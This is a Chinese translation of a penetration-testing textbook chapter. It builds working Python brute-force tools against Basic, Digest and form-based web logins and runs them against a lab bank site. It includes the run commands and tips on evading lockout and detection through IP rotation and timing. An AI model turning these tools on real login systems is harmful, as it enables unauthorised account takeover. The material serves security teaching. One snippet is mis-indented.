






# 密码测试

在第四章，*资源发现*中，我们学习了如何编写一个基本的 Web 应用程序 BruteForcer 来帮助我们进行资源发现。

在本章中，我们将学习以下内容：

+   密码攻击的工作原理

+   我们的第一个密码破解器

+   支持摘要身份验证

+   基于表单的身份验证

# 密码攻击的工作原理

在本节中，我们将看看密码破解是什么；它也被称为密码测试。我们将介绍进行密码破解时可以采取的不同方法，最后，我们将学习密码策略和帐户锁定，这在计划密码攻击时很重要。

# 密码破解

密码破解是针对 Web 应用程序的最常见的暴力攻击类型。这是对登录凭据的攻击，它利用了密码通常较弱的事实，因为用户需要记住它们并且需要一个难以猜测的单词。

密码破解通常使用已知单词的字典，或者更确切地说，使用广泛使用的密码列表。这些列表是通过从不同在线服务的密码泄露列表中获取最常用的密码而创建的。密码列表还可能包括单词的变体，例如通过用数字替换字母生成的变体，比如用零替换 O，用一替换 I。

当我们计划进行密码攻击时，我们有不同的选择：

+   **垂直扫描**：最常见且最常用的是垂直扫描，它使用一个用户名并尝试字典中的所有密码。

+   **水平扫描**：这基本上是垂直扫描的相反。它使用一个密码并对所有用户名进行测试。通常这样做是为了防止在多次无效登录尝试后锁定帐户。

+   **对角线扫描**：每次混合不同的用户名和密码，减少用户被检测或阻止的可能性。

+   **三维扫描**：有时，对角线扫描不够，我们需要进一步防止被检测。这就是三维扫描发挥作用的时候。这是水平、垂直或对角线的组合，但在这种情况下，我们有多台机器可以在上面启动我们的请求，或者 HTTP 代理可以允许我们为每个请求使用不同的源 IP。

+   **四维扫描**：这在源 IP 旋转或分发的基础上增加了每个请求的时间延迟。

# 密码策略和帐户锁定

密码策略是一组旨在通过鼓励用户使用强密码并正确使用它们来增强计算机安全性的规则。

密码策略可以是建议性的，也可以是强制性的，例如通过技术手段，比如在帐户创建时强制执行，或者在需要更改密码时强制执行。密码策略可以规定密码的长度、大小写敏感性、小写和大写字母的混合、允许的字符、数字和符号、过去密码的重复使用、不能使用的先前密码数量、黑名单密码，以及非常容易猜测的单词和组合，如**password**和**123456**。

此外，密码策略还可以定义诸如需要多频繁更改密码以及在 X 次错误尝试后锁定帐户等事项。因此，现在我们了解了密码策略的工作原理。当我们启动密码破解测试时，我们必须小心，因为我们可能会封锁数千个帐户，这可能意味着渗透测试的结束和一些问题。

未经授权进行此操作是非法的。

# 我们的第一个密码破解器

在本节中，我们将看看基本身份验证是什么，它是如何工作的，然后我们将为这种方法创建我们的第一个密码破解器。最后，我们将对我们的受害者 Web 应用程序测试脚本。

# 基本身份验证

基本身份验证是强制访问控制到 Web 应用程序资源的最简单的技术之一。它通过添加特殊的 HTTP 头来实现，这是不安全的，因为凭据被使用 Base64 方法编码后发送。编码意味着它可以很容易地被反转。例如，我们可以看到基本身份验证头是什么样子的：


编码字符串可以被解码，我们发现发送的密码等于`admin123`。

通常，当你看到以等号结尾的字符串时，它可能是一个 base64 编码的字符串。

# 创建密码破解器

让我们创建我们的密码破解器：

1.  让我们回到 Atom 编辑器，打开`back2basics.py`文件。在`Section-5`中，我们可以看到在`import`区域，我们没有任何新的内容，脚本的结构与之前的相似。

1.  我们有一个`start`函数，它将显示`banner`，并传递命令行并读取参数——相同的参数，除了现在有`user`参数。然后，它将使用变量`passwords`、`threads`、`user`和`url`调用函数`launcher_thread`，这些变量对应于密码字典、线程数、要使用的用户名和目标 URL：

```py
def start(argv):
    banner()
    if len(sys.argv) < 5:
        usage()
        sys.exit()
    try:
        opts, args = getopt.getopt(argv, "u:w:f:t:")
    except getopt.GetoptError:
        print "Error en arguments"
        sys.exit()

    for opt, arg in opts:
        if opt == '-u':
            user = arg
        elif opt == '-w':
            url = arg
        elif opt == '-f':
            dictio = arg
        elif opt == '-t':
            threads = arg
    try:
        f = open(dictio, "r")
        name = f.readlines()
    except:
        print"Failed opening file: " + dictio + "\n"
        sys.exit()
    launcher_thread(name, threads, user, url)
```

1.  然后，在`launcher_thread`中，我们有一个`while`循环，直到密码数组中没有任何单词为止：

```py
def launcher_thread(names, th, username, url):
    global i
    i = []
    i.append(0)
    while len(names):
        if hit == "1":
            try:
                if i[0] < th:
                    n = names.pop(0)
                    i[0] = i[0] + 1
                    thread = request_performer(n, username, url)
                    thread.start()

            except KeyboardInterrupt:
                print "Brute forcer interrupted by user. Finishing attack.."
                sys.exit()
            thread.join()
        else:
            sys.exit()
    return
```

因此，对于数组中的每个单词，我们都执行`pop`，然后用`n`、`username`和`url`实例化`request_performer`类。

1.  在`request_performer`中，我们为对象定义了一些属性，然后执行 GET 请求：

```py
class request_performer(Thread):
    def __init__(self, name, user, url):
        Thread.__init__(self)
        self.password = name.split("\n")[0]
        self.username = user
        self.url = url
        print "-" + self.password + "-"

    def run(self):
        global hit
        if hit == "1":
            try:
                r = requests.get(self.url, auth=(self.username, self.password))
                if r.status_code == 200:
                    hit = "0"
                    print "[+] Password found - " + colored(self.password, 'green') + " - !!!\r"
                    sys.exit()
                else:
                    print "Not valid " + self.password
                    i[0] = i[0] - 1 # Here we remove one thread from the counter
            except Exception, e:
                print e
```

这里重要的部分是`auth`参数，它告诉请求使用提供的用户名和密码进行基本身份验证。

然后，如果状态是`200`，我们打印出找到并使用的密码。我们使用变量`hit`来确定是否找到了有效密码，并停止发送请求。

就是这样；现在，我们有了我们的第一个基本身份验证暴力破解器。让我们试试看。

在运行之前，记住上一节，当我们发现不同的目录时，有一个返回状态码 401 的目录？这意味着它正在请求身份验证。

目录是`/Admin`，当我们尝试访问它时，我们可以看到身份验证弹出窗口：


让我们去终端。我们将使用以下命令行运行它：

```py
python back2basics.py -w http://www.scruffybank.com/Admin -u admin -t 5 -f pass.txt
```

这很简单，但这只是为了演示目的。我们可以看到在这种情况下用户`admin`的密码是`administrator`：



让我们在网站上试试看。你会看到它是有效的：



现在，你知道如何在 Web 应用程序中执行基本身份验证密码测试了。

# 添加对摘要身份验证的支持

在这一部分，我们将开始学习摘要身份验证是什么。然后，我们将修改我们的密码破解器以支持这种方法，最后，我们将测试新脚本对我们的测试 Web 应用程序的效果。

# 什么是摘要身份验证？

摘要身份验证是基本身份验证的更安全选项。它使用 MD5 对用户名和密码加上一个随机数进行哈希处理。**随机数**用于防止重放攻击，并在用户请求受保护的资源后由服务器发送。浏览器使用以下代码创建响应：


最后，响应是**HA1**随机数**HA2**的**MD5**哈希。领域值定义了一个保护空间。如果凭据适用于一个领域中的页面，它们也将适用于该领域中的其他页面。现在，让我们为我们的脚本添加对摘要的支持。

# 将摘要身份验证添加到我们的脚本中

让我们回到我们的编辑器，打开`back2digest.py`文件。我们添加了几行以支持摘要身份验证。首先，我们添加了这个导入：

```py
from requests.auth import HTTPDigestAuth
```

上述代码允许我们选择身份验证。在`request_performer`中，我们需要添加一个条件来检查用户是否选择运行`digest`身份验证攻击还是`basic`：

```py
                if self.method == "basic":
                    r = requests.get(self.url, auth=(self.username, self.password))
                elif self.method == "digest":
                    r = requests.get(self.url, auth=HTTPDigestAuth(self.username, self.password))
```

我们在请求实例化中指定不同的方法。在`digest`的情况下，稍有不同，因为我们需要在`auth`参数中指定`HTTPDigestAuth`。此外，我们需要在`start`函数中添加新参数的处理程序，在`getopt`函数中添加`-m`，新参数将管理身份验证方法的类型。然后我们将它添加到每个函数作为变量。

就是这样。我们应该能够针对受摘要保护的资源进行测试。让我们试试看。

让我们回到终端，但首先，让我们检查`robot.txt`中找到的资源`backoffice`。我们可以看到它需要身份验证，并且对用户来说与基本身份验证完全相同：


让我们查看服务器发送给我们的响应的标头。单击 Mozilla 浏览器右侧的打开菜单选项，选择 Developer | Network，然后单击 Reload 按钮。取消所需的身份验证窗口，然后选择如下屏幕截图所示的行。我们可以看到有一个带有`Digest realm`参数的 WWW- Authenticate 标头，`nonce`和`algorithm= MD5`。所以让我们去控制台运行我们的脚本：


让我们针对后台目录运行它。我们使用与之前相同的参数运行`back2digest.py`，但是我们将资源更改为`/backoffice`而不是`/admin`：

```py
python back2digest.py -w http://www.scruffybank.com/backoffice -u administrator -t 5 -f pass.txt -m digest
```

我们将用户更改为`administrator`，保持`5`个线程和相同的字典`pass.text`，最后，指示`digest`的新参数方法，然后运行它：



这次没有运气。没有一个组合是有效的；也许用户不存在。让我们尝试另一个用户，例如`admin`。让我们运行它。

太好了，我们找到了用户`admin`的密码：


现在让我们在浏览器中尝试一下。将用户名设置为`admin`，密码设置为`admin123`：


完美，我们成功了。这里没有太多可看的。现在你有了可以进行基本和摘要身份验证的密码破解器。恭喜！让我们继续添加更多功能。

# 基于表单的身份验证

在这一部分，我们将学习如何在 Web 应用程序中暴力破解基于表单的身份验证。我们将开始学习什么是基于表单的身份验证，然后我们将修改我们之前的工具之一，以启用此攻击。最后，我们将测试我们的脚本针对受害者 Web 应用程序，并对其进行微调以改进结果。

# 基于表单的身份验证概述

让我们从对基于表单的身份验证的快速概述开始。基于表单的身份验证是 Web 应用程序中最常见和广泛使用的身份验证方法。

这种方法与我们之前学到的两种方法不同，这意味着此方法的实现将有所不同。基本上，Web 应用程序将呈现一个表单，提示用户输入用户名和密码。然后，这些数据将发送到服务器进行评估，如果凭据有效，它将为用户提供有效的会话 cookie，并允许用户访问受保护的资源。

让我们将这添加到我们之前的脚本中。所以，你可能在等我说让我们回到编辑器并打开之前的脚本，但不是。让我们停下来一分钟，评估我们在这里的最佳选择是什么。我们将处理表单，并且没有关于如何处理表单上的身份验证的标准，因此我们需要有很好的过滤来筛选出不正确的尝试，并能够识别出好的尝试。

因此，我们不是将所有过滤代码添加到先前的脚本中，而是将`post`处理和`payload`处理添加到`第 5 节`的`forzaBruta-forms.py`脚本中。因此，现在，返回编辑器并打开文件。让我们开始添加代码，使其能够暴力破解登录表单。

我们不添加新的`import`。我们可以转到`start`函数，并添加`getopt`函数来处理`post` `payload`：

```py
def start(argv):
    banner()
    if len(sys.argv) < 5:
        usage()
        sys.exit()
    try:
        opts, args = getopt.getopt(argv, "w:f:t:p:c:")
    except getopt.GetoptError:
        print "Error en arguments"
        sys.exit()
    hidecode = 000
    payload = ""
    for opt, arg in opts:
        if opt == '-w':
            url = arg
        elif opt == '-f':
            dict = arg
        elif opt == '-t':
            threads = arg
        elif opt == '-p':
            payload = arg
        elif opt == '-c':
            hidecode = arg
    try:
        f = open(dict, "r")
        words = f.readlines()
    except:
        print"Failed opening file: " + dict + "\n"
        sys.exit()
    launcher_thread(words, threads, url, hidecode, payload)
```

在这种情况下，它将是`-p`。如果存在`-p`，我们将其值分配给`payload`变量。我们将`payload`传递给`launcher_thread`。

然后，在`launcher_thread`中，我们再次将其传递给`request_performer`：

```py
def launcher_thread(names, th, url, hidecode,payload):
    global i
    i = []
    resultlist = []
    i.append(0)
    print "-----------------------------------------------------------------------------------------------------------------------------------"
    print "Time" + "\t" + "\t code \t\tchars\t\twords\t\tlines"
    print "-----------------------------------------------------------------------------------------------------------------------------------"
    while len(names):
        try:
            if i[0] < th:
                n = names.pop(0)
                i[0] = i[0] + 1
                thread = request_performer(n, url, hidecode, payload)
                thread.start()

        except KeyboardInterrupt:
            print "ForzaBruta interrupted by user. Finishing attack.."
            sys.exit()
        thread.join()
    return

if __name__ == "__main__":
    try:
        start(sys.argv[1:])
    except KeyboardInterrupt:
        print "ForzaBruta interrupted by user, killing all threads..!!"
```

我们将`payload`添加到`request_performer`的`init`函数中。

然后，我们检查 payload 是否为空。如果不为空，我们用字典词替换关键字`FUZZ`，否则我们不会触及它，保持原样：

```py
class request_performer(Thread):
    def __init__(self, word, url, hidecode, payload):
        Thread.__init__(self)
        self.word = word.split("\n")[0]
        self.url = url.replace('FUZZ', self.word)
        if payload != "":
            self.payload = payload.replace('FUZZ', self.word)
        else:
        self.payload=payload
        self.hidecode = hidecode
```

然后，我们转到`run`方法，我们需要一个条件来告诉我们何时使用`post`和何时使用`get`。我们可以通过检查`self.payload`是否为空来做到这一点，如果为空，我们使用`get`：

```py
    def run(self):
        try:
            start = time.time()
            if self.payload == "":
                 r = requests.get(self.url)
                 elaptime = time.time()
                 totaltime = str(elaptime - start)[1:10]
```

如果不为空，我们将使用`post`请求。

对于`post`请求，我们需要以字典形式的 payload：

```py
            else:
                list=self.payload.replace("="," ").replace("&"," ").split(" ")
                payload = dict([(k, v) for k,v in zip (list[::2], list[1::2])])
                r = requests.post(self.url, data = payload)
                elaptime = time.time()
                totaltime = str(elaptime - start)[1:10]
```

现在，我们将其作为一个带有`&`和`=`符号的字符串，所以我们将用一个空格替换符号，然后我们将使用空格拆分字符串，创建一个元素列表。

然后，我们使用该 payload 创建一个`post`请求，这些都是执行登录表单密码暴力破解所需的所有更改。现在，测试它对我们的受害者 Web 应用程序将是很好的。让我们来做吧。

我们如何设置对表单的暴力攻击？让我们打开一个具有登录表单的页面，在我们的情况下是`www.scruffybank.com/login.php`。

我们右键单击页面，然后选择查看页面源代码：



现在，我们需要找到表单操作，也就是凭证将被发送以进行验证的地方。在这种情况下，它是`check_login.php`：



我们还需要变量的名称，在这种情况下是`username`和`password`。

这就是我们设置攻击所需的数据。

让我们返回终端，并使用以下命令行运行脚本，`forzaBruta-forms.py`，后跟相同的 URL。这次，我们将登录更改为`check_login.php`。我们将线程保留为`5`。在这种情况下，我们在`post`的`payload`中有`username`和`password`参数：

```py
python forzaBruta-forms.py -w http://www.scruffybank.com/check_login.php -t 5 -f pass.txt -p "username=admin&password=FUZZ"
```

我们需要用`&`连接参数。`weaksource.txt`是人们在不同服务中使用的最弱密码的列表。现在，让我们启动它。我们可以看到所有结果都是`302`：



因此，按代码进行过滤对我们没有帮助。我们可以过滤掉等于`2373`的`chars`，这是我们知道的失败尝试。

让我们修改代码，以过滤`chars`而不是使用命令行参数`-c`过滤代码。我们将代码更改为按`chars`进行过滤。这样做，我们可以在不修改太多代码的情况下按`chars`进行过滤。返回编辑器，修改行`self.hidecode !=code`为`self.hidecode != chars:`：

```py
            if self.hidecode != chars:
                if '200' <= code < '300':
                    print totaltime + "\t" + colored(code,'green') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines +"\t" + r.headers["server"] + "\t" + self.word
                elif '400' <= code < '500':
                    print totaltime + "\t" + colored(code,'red') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t" + r.headers["server"] + "\t" + self.word
                elif '300' <= code < '400':
                    print totaltime + "\t" + colored(code,'blue') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t"+ r.headers["server"] + "\t" + self.word
            else:
                pass
            i[0] = i[0] - 1 # Here we remove one thread from the counter
        except Exception, e:
            print e
```

让我们保存这个。现在，我们更改命令行以添加`-c 2373`来过滤所有结果，并再次运行它：

```py
python forzaBruta-forms.py -w http://www.scruffybank.com/check_login.php -t 5 -f pass.txt -p "username=admin&password=FUZZ" -c 2373
```

好的。我们有我们的用户名和密码：


恭喜，现在您知道如何测试密码安全性，针对三种最常见的 Web 应用程序身份验证方法！在本节中，我们还利用了以前的工作。

# 总结

在本章中，我们学习了 Web 应用程序中常用的不同身份验证方法，并创建了一个用于测试基本和摘要身份验证的工具。最后，我们创建了一个登录表单身份验证 BruteForcer。

在第六章中，*检测和利用 SQL 注入漏洞*，我们将学习如何检测和利用 SQL 注入漏洞。
